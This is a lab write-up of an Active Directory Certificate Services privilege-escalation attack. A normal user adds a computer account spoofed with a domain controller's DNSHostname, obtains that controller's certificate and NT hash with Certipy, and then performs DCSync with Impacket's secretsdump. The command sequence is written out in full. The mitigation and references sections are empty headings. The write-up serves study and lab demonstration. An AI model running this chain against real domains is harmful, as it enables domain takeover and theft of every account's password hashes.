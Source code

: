 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Technical Breakdown: The conversation
\+ **User:** Mr. AD! I heard that I could join 10 computers to the domain. Is this for real?

\- **AD:** Thats right! knock yourself out!

\+ **User:** Yo ADCS! can I request a certificate from you?

\~ **ADCS:** Sure! what do you need this certificate for, user or computer?

\+ **User:** I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ **ADCS:** You bet! all domain computers can get their certificate!

\+ **User:** Oh that's great! Alright, i'll need one for my computer here. But can I make its `DNShostname` like this? \*shows domain controller fully-qualified domain name\*

\~ **ADCS:** \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ **User:** Thank you ADCS! This certificate is good for authentication too, Right?

\~ **ADCS:** That's correct.

\+ **User:** Perfect!

\+ **User:** AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- **AD:** Yea I know that domain controller. \*Sends him a copy of all the domain hashes\*

\+ **User:** Oh you're so generous AD <3

\- **AD:** Just doing my job :D

## About Certificate Templates: Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (can be a User or Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. By default, both the user and computer certificate templates allow client authentication.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. The client would then store this certificate in its Certificate Store and use it to perform actions allowed by the certificate (including authentication).
6. Because of the PKINIT kerberos extension, the issues certificates can be used for authentication.

## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits